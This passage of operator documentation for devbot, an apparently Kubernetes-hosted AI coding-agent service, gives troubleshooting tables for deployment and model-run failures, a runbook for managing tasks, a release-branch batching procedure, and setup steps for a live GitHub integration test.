| `helm install` or `helm template` fails with `image.agents.claude.repository: the implement role runs harness claude, which needs an image with its CLI` | A role runs `harness: claude`, and no claude image is set. devbot publishes none: build and push one ([Building the claude image](#building-the-claude-image)), set `image.agents.claude.repository` to it, and install again. Or run the role on `codex`. |
| A job's agent container exits at once, logging `"claude" isn't on this container's PATH` (or `"codex"`) | The role's `image.agents.<harness>` points at an image without that CLI, such as the base image. Point it at the image of the role's harness ([Agent images](#agent-images)), then `helm upgrade`. |
| Job pods start but miss settings the chart rendered: `kubectl -n devbot get scaledjob devbot-implement -o yaml` lacks `hostUsers`, `restartPolicy: Always` on the sidecars, or (with `docker.mode`) `appArmorProfile` on the `-docker` ScaledJobs; rootless Docker fails on `mount` | KEDA is older than 2.16, and its CRD pruned the fields it doesn't know. Upgrade KEDA (its CRDs with it), then `helm upgrade` devbot again so the ScaledJobs are written whole. |
| Job pods never start: their events say `hostUsers`, `user namespaces`, `idmap` or `MOUNT_ATTR_IDMAP` (for example `CreateContainerError`, or a `FailedCreatePodSandBox` naming them) | The nodes can't run `hostUsers: false` pods: Kubernetes older than 1.33, containerd older than 2.0 or CRI-O older than 1.25, or a kernel or filesystem without idmapped mounts. Upgrade the nodes, or set `jobs.userNamespaces: false` (and with it no [`dind`](#dind)). `kubectl -n devbot describe pod <job pod>` shows the event. |
| Job pods stay `Pending`: their events say `node(s) didn't match Pod's node affinity/selector` | No node matches the `jobs.nodeSelector`, `jobs.tolerations` or `jobs.affinity` you set, so they have nowhere to go. Set `jobs.nodeSelector` (and `jobs.tolerations`, `jobs.affinity`) to match nodes you have (`kubectl get nodes --show-labels`), then `helm upgrade`. `kubectl -n devbot describe pod <job pod>` shows the event. |
| Docker job pods stay `Pending`: `Insufficient devbot.io/tun` | No node a job pod may run on advertises the TUN device. Check the plugin's DaemonSet, `kubectl -n devbot get ds devbot-tun-plugin`, has a ready pod on those nodes, and its logs; `kubectl get node <node> -o jsonpath='{.status.allocatable}'` should list `devbot.io/tun`. With `docker.dind.tunPlugin.enabled: false`, the plugin you named in `docker.dind.tunResource` must run there. |
| The Docker daemon's container fails: `unshare`, `newuidmap` or RootlessKit `operation not permitted` | The nodes don't allow unprivileged user namespaces to an unconfined process. On Ubuntu 24.04 and later, set `kernel.apparmor_restrict_unprivileged_userns=0` on the job nodes, or give the daemon a Localhost AppArmor profile that allows `userns` ([Docker](#docker)). |
| Docker job pods are refused at admission (`violates PodSecurity "baseline"`) | The namespace enforces Pod Security `baseline` or `restricted`, which `dind` can't meet. Label the namespace `pod-security.kubernetes.io/enforce=privileged`, or leave `docker.mode` unset. |
| Nothing happens on GitHub: no comments, labels not picked up until the reconcile loop | Webhook deliveries aren't arriving. On the implementer App's settings page, Advanced, **Recent Deliveries** shows each delivery and devbot's answer: a timeout or connection error means serve isn't reachable at the Webhook URL from the internet; `401` is a signature failure (next row); `404` is a URL whose last segment isn't the provider's `name` in `config.providers`. Redeliver from there once it's fixed. |
| Gitea deliveries fail | The failures are in Gitea's admin panel (the webhook's Recent Deliveries) and its `hook_task` table. A delivery to an in-cluster address needs `webhook.ALLOWED_HOST_LIST` to name the host and its IP ([Gitea](#gitea)). |
| Deliveries answered `401`, and serve logs `webhook rejected` (`devbot_webhook_events_total{result="rejected"}` grows) | The webhook's secret isn't the one in `webhook_secret_env`. Set the same value on the forge (Gitea's webhook, or the implementer App's) and in `secrets.forge`, then restart serve (`kubectl -n devbot rollout restart deploy/devbot`). On GitHub, check the reviewer App's webhook is off: its deliveries carry its own secret. |
| serve isn't ready, `/readyz` fails, and serve or job pods log `WRONGPASS`, `NOAUTH` or `NOPERM` | The Redis passwords serve or the harness has aren't Redis's. With the chart's Redis, Redis reads its ACL at start, so after the `<release>-redis` Secret changed (deleted, or `redis.existingSecret` edited), restart it: `kubectl -n devbot rollout restart deploy/devbot-redis`, then serve. With your own Redis, it needs the users `devbot-serve`, `devbot-harness` and `devbot-keda` with the passwords in `redis.existingSecret`, and the permissions in [Redis](#redis). |
| Jobs are queued but no pod starts, and the KEDA operator logs Redis auth errors for `devbot` | KEDA's TriggerAuthentication uses `keda-password`; the same fix as the row above, for the `devbot-keda` user. |

### A model run fails

When a run ends without a result, the attempt-failed comment on the issue
says why in one line:

| The comment says | What happened |
|---|---|
| `the model run exited 1 after 47m: <last line of its stderr>` | The agent CLI (`claude -p`, `codex exec`) exited non-zero, or was killed by a signal (`exited 137 (SIGKILL) after ...`). The line is the last its stderr said, or its own error output when stderr said nothing. |
| `the model run exited 137 (OOM-killed at the 8Gi limit after 28m)` | The kernel's OOM killer ended the CLI: it died of SIGKILL, and the agent container's cgroup (`memory.events`) counted an OOM kill during the run. Raise `jobs.agentResources.limits.memory`, or have the repo's tasks use less (run tests one at a time, say). |
| `the agent stopped answering (EOF after 28m)` | The agent container went away mid-run without answering, usually because it was OOM-killed itself or something in it signalled its process. With `podLabels.enabled` or `services.enabled`, serve reads how the container ended from the pod and the line goes on: `; its container ended OOMKilled, exit 137`. Without either, serve has no access to pods, and `kubectl -n devbot get pod <job pod> -o jsonpath='{.status.initContainerStatuses}'` says, while the pod is still there. |

`the agent failed the run after 12m: ...` is the agent's own failure, not the
model's: it couldn't start the CLI, or it was told to stop (SIGTERM) mid-run.

The whole record is in two logs. The agent container logs `run ended` when
every run ends, at `ERROR` when it failed: `exit_code`, `signal`,
`duration_s`, `oom_suspected`, `memory_limit`, and the last 4 KiB of the CLI's
stderr and stdout (`stderr_tail`, `stdout_tail`), so `kubectl -n devbot logs
<job pod> -c agent` still says what happened after the job ended, and your
log shipping keeps it after the pod is gone. The harness's
[`agent.run` audit record](#events) has the same fields (`stdout_tail` only
with `audit.transcript` on, since it is the model's own words), and when the
agent stopped answering, `agent_container` with how serve found it ended.

## Runbook

| Situation | Do |
|---|---|
| Stop one task | `cancel` (MCP, CLI, or `POST /api/task/cancel`), or remove its `devbot/*` label. The job stops within about a minute. Its branch stays until its PR is merged or closed, or, without a PR, until `orphan_branch_grace` has passed (see [Branch cleanup](forge.md#branch-cleanup)). |
| Restart a stopped task | add `devbot/ready` (as someone who may direct devbot), or call `retry`. Either way devbot posts a `reset` status comment, and attempts, review rounds and rebase rounds start over from it, so a task stopped at `max_attempts` gets attempt 1 again. See [what a retry resets](connectors.md#what-a-retry-resets). |
| Change what a task asks for part way through | call `edit_task` (MCP, `POST /api/task/edit`, `devbot edit REF -ac "..." -note "..."`) rather than editing the issue: devbot makes the edit and pins it to you, so the task carries on, on Gitea too, where a body edit by hand stops it at `needs-human`. A task with a PR goes back to the implementer with what changed, and an approval from before the edit no longer merges it. See [Editing a task](connectors.md#editing-a-task). |
| An approved PR is behind its base | nothing, if a person merges it and the forge allows that. Otherwise ask for a rebase: add `devbot/rebase` to the issue, comment `/rebase`, or call `rebase`. See [Rebasing approved PRs](#rebasing-approved-prs). |
| Land a batch of PRs together | see [Landing a batch through a release branch](#landing-a-batch-through-a-release-branch) |
| Two tasks change the same code, and one should build on the other | comment `/wait #N` on the issue of the one that should go second, or call `wait_task`. It is held until #N merges, then built or rebased on the result. See [Coordination between tasks](#coordination-between-tasks). |
| Stop everything | `kubectl -n <namespace> annotate scaledjob -l app.kubernetes.io/instance=<release> autoscaling.keda.sh/paused=true` (every ScaledJob of the release, the `-docker` ones too; running jobs finish). The same with `autoscaling.keda.sh/paused-` resumes. Scaling serve to 0 also stops webhooks and connectors. |
| Opt a repo out | commit `.devbot.yaml` with `enabled: false`, remove the bots' write access, or add it to `repos.deny`. Its tasks keep their labels and are ignored. (Just deleting `.devbot.yaml` doesn't opt out under `repos.opt_in: any`: the default policy applies instead.) |
| Lost webhooks, or Redis wiped | nothing: the next reconcile pass (`reconcile_interval`) re-queues. `devbot reconcile` runs a pass now. |
| Redis full (`OOM command not allowed` in the logs; sign-ins and filing fail) | Find what grew: `redis-cli --bigkeys`, and `redis-cli --scan --pattern 'devbot:auth:client:*' \| wc -l` for registrations. Raise `redis.maxmemory` with `redis.resources.limits.memory`, or lower `auth.rate_limits` or `event_retention`. Flushing Redis is safe (the next reconcile pass re-queues work), but signs everyone out. |
| No replica leads (`sum(devbot_leader)` is 0), so nothing reconciles | serve can't reach Redis: its pods aren't ready (`/readyz` says why) and each logs `leader election` warnings. Once Redis answers, a replica leads within `leader_lease / 10`. |
| A task stuck in `working` | if its pod is gone, reconcile resets it within about 4 minutes and counts a failed attempt |
| Every run fails with `API Error: 400` / 401 | the Claude credential is wrong or expired. Rotate it (see [Secrets](#secrets)). |
| Jobs queued, nothing running | `kubectl -n <namespace> get scaledjob`, then check `keda-operator` logs for `devbot`. A ScaledJob stuck at `READY=False` after a Redis outage clears on a spec change, or on delete and redeploy. |
| A connector client keeps getting `401` (oauth) | Its sign-in ended: revoked, a used refresh token presented again, the forge refused to refresh or rejected the person's token (which ends all of that person's sign-ins), or the auth key changed. The client signs in again. serve logs which, at warn (`auth: ...`), without any token. |
| Connector calls get `503` (oauth) | devbot couldn't reach Redis or the forge while checking a sign-in, for example to refresh someone's forge token. Nobody is signed out; calls work again once it's reachable. |
| A connector call fails with `internal error; request ID <id>` | serve logged the real error at error level, as `connector call failed` with `request_id=<id>`. Callers only see errors about their own request (refused, not found, invalid) in full. |
| Rotate the auth key, or end every sign-in | See [Rotating the auth key](#rotating-the-auth-key). Deleting `devbot:auth:*` from Redis also ends every sign-in, and client registrations too. |
| Tools missing in Claude Code sessions | `claude mcp list` from the client's project directory. "Pending approval" means the project hasn't approved the server. A `tools/list` error is a devbot bug: check serve's logs. |
| Debug one job locally | run the harness against the real queue with `DEVBOT_AGENT_SOCKET=local` after pausing the ScaledJobs, so KEDA doesn't take the job. Development only: the model shares the harness's process. |

### Landing a batch through a release branch

To land a set of tasks together, and test them together before they reach
the default branch, put them on a release branch:

1. Create the branch on the forge from the default branch, e.g. `release/2.4`.
   devbot doesn't create it.
2. File new tasks with `base: release/2.4` (`file_task`, `POST /api/tasks`, or
   `devbot file -base release/2.4`), and point tasks already in flight at it
   with `retarget` (`devbot retarget REF release/2.4`). devbot moves each
   open PR onto the branch and rebases it there, with its attempt, review and
   rebase counts started over, so the move costs the task nothing. Don't
   change the PRs' base on the forge yourself: devbot adopts a change made
   there too, but `retarget` checks the branch exists first and says who did
   it.
3. Each task's PR goes through the merge gate against `release/2.4`: the
   forge's rules for that branch, and up to date with it. With `automerge` (or
   `devbot/automerge`), devbot merges it into `release/2.4`, never the default
   branch.
4. Open the PR from `release/2.4` to the default branch yourself, and merge
   it when the batch is ready. devbot doesn't track that PR.

Tasks in the batch that change the same code can be ordered with `/wait #N`
(or `wait_task`): the waiting task is built or rebased on the other's merge
into `release/2.4`, and with automerge it takes its turn only after that.

`.devbot.yaml` is read from the default branch only, so a release branch's
copy can't change the policy for the tasks going into it.

### Running the live GitHub test

`internal/forge/github/live_test.go` runs devbot's engine and harness, with a
stub in place of Claude, against real GitHub. It only builds with the
`github_live` tag, so `go test ./...` and CI never run it. It needs no
inbound webhook: it evaluates tasks itself, as the reconcile loop would. Each
job runs as its pod does, with its own App's key alone, on tokens for the
test repo alone.

| Test | Covers | Needs |
|---|---|---|
| `TestLiveIssueToMerge` | both Apps' installations and permissions on the test repo; finding work through the implementer App's installations; a task filed, the implementer pushing a branch and opening a PR with an attachment, CI passing, the reviewer App reading the attachment, approving and merging, the attachment released, and branch cleanup: the task's `devbot/*` branch deleted with the merge, and `devbot/attachments` kept | the Apps and the test repo |
| `TestLiveFailingCI` | a PR whose CI fails going back to the implementer as changes requested | the Apps and the test repo |
| `TestLiveSignedInUser` | a person signed in through the sign-in App filing a task as themselves: the issue and its `devbot/ready` are theirs, and devbot takes it | the Apps, the test repo, and a user access token (`DEVBOT_LIVE_GITHUB_USER_TOKEN`, `GITHUB_OAUTH_CLIENT_ID`) |
| `TestLiveEditedByAnAuthorizedUser` | a person who can direct devbot editing the body of an approved issue the implementer App filed: GitHub's edit history, with the body as filed left out, holds their one edit, and the task carries on to a PR | the Apps, the test repo, and a user access token (`DEVBOT_LIVE_GITHUB_USER_TOKEN`) |
| `TestLiveBodyEditAfterApproval` | the pin: after the implementer started, a person who can direct devbot edits the issue's body; devbot pins the new text with a comment naming them, and the review carries on to an approval | the Apps, the test repo, and a user access token (`DEVBOT_LIVE_GITHUB_USER_TOKEN`) |
| `TestLiveEditTask` | `edit_task` mid-task: devbot edits the issue as the implementer App and pins the new text, the PR goes back to the implementer with what changed, and the review that follows approves it against the new text, with no `needs-human` | the Apps and the test repo |
| `TestLiveBaseAndRetarget` | a task filed with a `base` opening its PR against that branch; the PR's base changed on GitHub, adopted as a retarget, with attempts and review rounds starting over and a rebase queued; then a `retarget` through the connector moving the PR back, starting over again | the Apps and the test repo; CI on PRs onto any branch |
| `TestLiveLazyRebase` | lazy rebase: an approved PR without automerge whose base moves on stays approved and noted behind, with nothing rebased, until a `rebase` through the connector queues one | the Apps and the test repo; CI on PRs onto any branch; automerge off in the test repo |
| `TestLiveRequiredReviews` | the required-reviews experiment: with the default branch requiring one approving review, under a ruleset and then under classic branch protection, whether the reviewer App's approval unblocks the PR and lets it merge. It logs a `RESULT` line for each. On GitHub.com on 2026-10-17 it did, under both ([Branch protection and rulesets](#branch-protection-and-rulesets)) | the Apps, a protection repo and an admin token (`DEVBOT_LIVE_GITHUB_PROTECTION_REPO`, `DEVBOT_LIVE_GITHUB_ADMIN_TOKEN`) |
| `TestLiveCarrySameRepoPR` | PR adoption from the same repo: a PR whose CI fails, labelled `devbot/ready` by the person when their token can direct devbot (else by the implementer App), gets one tracking issue "Carry PR #N", linked from the PR, with the label moved onto it and the labeller as requester, also after a second pass with nothing to do; the stub's fix goes onto the PR's own branch, on top of the author's commits, with no new branch or PR; the reviewer App approves the new head, and the gate merges it or leaves it at `devbot/approved`, as the test repo says | the Apps and the test repo; `DEVBOT_LIVE_GITHUB_USER_TOKEN` optional |
| `TestLiveCarryForkPR` | PR adoption from a fork, both ways. With **Allow edits by maintainers** on, the path depends on the fork, whose visibility the test reads with its owner's token. A private fork, which the implementer App's token never reaches (the fork of a private test repo always is, so that's what a private test repo exercises): devbot reads the PR's code from the test repo's `refs/pull/<N>/head`, says on the PR that it can't push to the fork, and carries it on `devbot/pr-<N>` through to the merge and the original's close, as with edits off. A public fork: devbot pushes its fix onto the fork's branch, and the PR is carried to approval as above. With it off: devbot carries the PR on `devbot/pr-<N>` in the test repo, from the contributor's commit, opens a PR of its own crediting theirs and comments the link on it; once that PR merges (the test adds `devbot/automerge` to the tracking issue, as the implementer App, whatever the repo's automerge), devbot closes the original as superseded, thanking its author | the Apps, the test repo, a fork of it owned by someone else, and that person's token (`DEVBOT_LIVE_GITHUB_FORK_REPO`, `DEVBOT_LIVE_GITHUB_USER_TOKEN`) |

**What it needs:**

- A test org with a **test repo** both Apps are installed on, with GitHub
  Actions CI that runs `sh test.sh` on pull requests onto any branch, where
  `test.sh` fails when a file named `FAIL` exists, and whose `.devbot.yaml`,
  if it has one, leaves `automerge` off. Any plan works.
- For `TestLiveRequiredReviews`, a repo that can have rulesets and branch
  protection, with none of its own, since the test removes what it sets. It
  may be the test repo itself. On the free plan that means making it public
  for the run (and private again afterwards); on a paid plan any repo works.
  Each run skips, saying why, when GitHub refuses the rule. Both Apps must
  be installed on it, and it takes a person's fine-grained token with
  **Administration read and write** on it, to set the rules up and remove
  them again.
- For `TestLiveSignedInUser`, `TestLiveEditedByAnAuthorizedUser` and
  `TestLiveBodyEditAfterApproval`, a **user access token** for the sign-in
  App, of someone with at least write on the test repo.
- For `TestLiveCarrySameRepoPR` and `TestLiveCarryForkPR`, PR adoption on
  in the test repo (`pull_requests.enabled`, and for the fork
  `pull_requests.forks`, both on by default).
- For `TestLiveCarryForkPR`, a **fork** of the test repo owned by a person
  other than the one whose token the tests above use: a user account, since
  GitHub only lets a PR from a fork a user owns allow edits by maintainers.
  Their token goes in `DEVBOT_LIVE_GITHUB_USER_TOKEN` for this run: one
  that can push to the fork and open PRs on the test repo, such as a
  classic personal access token with `repo` scope. The test repo's Actions
  must run workflows on PRs from that fork without waiting for approval
  (they do once the person has contributed, or with the approval setting
  relaxed), or CI never starts. The fork of a private test repo is private,
  so `maintainer-edits` takes the `devbot/pr-<N>` fallback; with a public
  test repo and its public fork it takes the push-to-the-fork path.
- `git` on the `PATH`.

**Env vars.** A test whose variables aren't set is skipped, saying which.

| Variable | For |
|---|---|
| `DEVBOT_LIVE_GITHUB_URL` | the API base, default `https://api.github.com` |
| `DEVBOT_LIVE_GITHUB_IMPLEMENTER_APP_ID`, `DEVBOT_LIVE_GITHUB_REVIEWER_APP_ID` | the Apps' IDs |
| `GITHUB_APP_DEVBOT_KEY`, `GITHUB_APP_REVIEW_KEY` | the Apps' PEM private keys |
| `DEVBOT_LIVE_GITHUB_REPO` | the test repo, `owner/name` |
| `GITHUB_OAUTH_CLIENT_ID`, `GITHUB_OAUTH_CLIENT_SECRET` | the sign-in App's client ID and secret |
| `DEVBOT_LIVE_GITHUB_USER_TOKEN` | the person's user access token; for `TestLiveCarryForkPR`, the fork owner's token |
| `DEVBOT_LIVE_GITHUB_FORK_REPO` | the fork of the test repo for `TestLiveCarryForkPR`, `owner/name` |
| `DEVBOT_LIVE_GITHUB_PROTECTION_REPO` | the experiment's repo, `owner/name`; may be the test repo |
| `DEVBOT_LIVE_GITHUB_ADMIN_TOKEN` | the token that sets the experiment's rules |

The keys and secrets go by the names `values.example-github.yaml` gives
them, so they load from a Secret holding them, without being printed:

```bash
eval "$(kubectl -n <namespace> get secret <secret> -o json |
  jq -r '.data | to_entries[] | "export \(.key)=\(.value | @base64d | @sh)"')"
export DEVBOT_LIVE_GITHUB_IMPLEMENTER_APP_ID=<id> DEVBOT_LIVE_GITHUB_REVIEWER_APP_ID=<id>
export DEVBOT_LIVE_GITHUB_REPO=<org>/<repo>
```

**A user access token**, for `TestLiveSignedInUser`,
`TestLiveEditedByAnAuthorizedUser` and `TestLiveBodyEditAfterApproval`: open
`https://github.com/login/oauth/authorize?client_id=<client ID>` (on GitHub
Enterprise Server, the appliance's host) signed in as the person, approve,
and copy the `code` from the address the browser lands on (the App's
callback URL; the page there may well be an error), then, within ten
minutes:

```bash
read -rs CODE && export DEVBOT_LIVE_GITHUB_USER_TOKEN="$(curl -s -X POST https://github.com/login/oauth/access_token \
  -H 'Accept: application/json' -d client_id="$GITHUB_OAUTH_CLIENT_ID" \
  -d client_secret="$GITHUB_OAUTH_CLIENT_SECRET" -d code="$CODE" | jq -r .access_token)"; unset CODE
```

It lasts 8 hours.

**Run:**

```bash
go test -tags github_live -count=1 -v -timeout 90m -run Live ./internal/forge/github/
```

The fork test takes the fork owner's token in place of the person's, so run
it on its own:

```bash
export DEVBOT_LIVE_GITHUB_FORK_REPO=<fork owner>/<repo> DEVBOT_LIVE_GITHUB_USER_TOKEN=<their token>
go test -tags github_live -count=1 -v -timeout 60m -run TestLiveCarryForkPR ./internal/forge/github/
```

For the required-reviews experiment on a free-plan private repo, make the
repo public just for the run, then private again:

```bash
gh repo edit <org>/<repo> --visibility public --accept-visibility-change-consequences
go test -tags github_live -count=1 -v -timeout 30m -run TestLiveRequiredReviews ./internal/forge/github/
gh repo edit <org>/<repo> --visibility private --accept-visibility-change-consequences
```

GitHub's issue listing can lag a new issue by some seconds, so a test waits
up to 2 minutes for one it just filed to be listed, and likewise for a body
edit to show in the issue's edit history. Each test waits up to 15
minutes for CI. `-run TestLiveRequiredReviews` (or
any one test) runs just that. The run logs what it does, with links to the
issues and PRs it makes, never a key or token.

**What it leaves behind.** Each test closes its issues and PRs and deletes
their branches, the `devbot-live/` base branches it makes included, even
when it fails, and so does the experiment with its
ruleset and branch protection. When `TestLiveIssueToMerge` is what created
devbot's `devbot/attachments` branch, it deletes that too. The carry tests
close the tracking issues and PRs they open, and delete the `devbot-live/`
branches they push, in the fork too, with the fork owner's token. A merged
PR's file stays on the default branch, under `live/`. A cleanup that fails fails
the test, naming what to remove by hand. A run that was killed half way may
leave `devbot-live/` branches (in the fork too), a ruleset named `devbot-live-required-review`
or protection on the default branch: remove them by hand before running it
again.
